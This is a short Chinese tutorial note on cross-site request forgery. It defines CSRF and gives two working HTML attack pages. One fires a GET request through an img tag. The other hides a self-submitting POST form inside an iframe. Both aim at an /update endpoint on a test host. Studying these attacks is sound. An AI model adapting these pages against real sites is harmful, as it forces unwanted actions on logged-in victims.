# CSRF 攻击

## 1. 什么是 CSRF

CSRF（Cross-site request forgery）跨站请求伪造：攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，来执行某项操作。

## 2. CSRF 分类

### 1.GET 类型的 CSRF

可以完美避过跨域问题

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
    <title>csrf_1</title>
  </head>
  <body>
    <img src="http://localhost.meetsocial.cn:8888/update?amount=1111" />
  </body>
</html>
```

### 2. POST 类型的跨域问题

使用 iframe 页面不会跳转, 更加隐藏

```html
<html>
  <head>
    <meta charset="utf-8" />
    <title>csrf_2</title>
  </head>
  <body>
    <iframe src="csrf_iframe.html"></iframe>
  </body>
</html>
```

csrf_iframe.html:

```html
<html>
  <head>
    <meta charset="utf-8" />
    <title>csrf_2</title>
  </head>
  <body>
    <form method="POST" action="http://localhost.meetsocial.cn:8888/update">
      <input type="hidden" name="amount" value="2222" />
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```
